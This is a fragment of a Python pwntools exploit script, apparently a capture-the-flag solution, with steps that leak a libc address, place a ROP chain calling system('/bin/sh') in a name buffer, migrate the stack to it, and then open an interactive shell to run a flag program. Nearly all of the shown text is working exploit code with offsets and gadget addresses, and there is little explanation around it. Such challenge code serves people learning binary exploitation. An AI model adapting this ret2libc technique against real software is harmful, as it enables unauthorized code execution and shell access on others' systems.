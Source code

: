 ```python

conn.recvuntil('to say?\n')	# _coda, str

payload = b'0'*16 + p64(str_base - 8)
conn.send(payload)

storeRecv = conn.recvline()
puts_addr = u64(storeRecv[:-1]  + b'\x00\x00')

lib_base = puts_addr - 0x875a0

print("===== step 5 === put ROPchain #2 in name[] =====")

conn.recvuntil('please?\n')	# welcome, name

ret_gadget = 0x40101a
binsh = 0x1b75ab + lib_base
system_addr = 0x55410 + lib_base

payload = p64(rdi_gadget) + p64(binsh) + p64(system_addr) 
conn.send(payload) 

print("===== step 6 === stack migration #2 run system() =====")

conn.recvuntil('to say?\n')	# _coda, str

payload = b'0'*16 + p64(str_base - 8)
conn.send(payload)

print("===== successful ! QWQ =====")

conn.sendline('./flag.exe 3190105871')
conn.interactive()
```
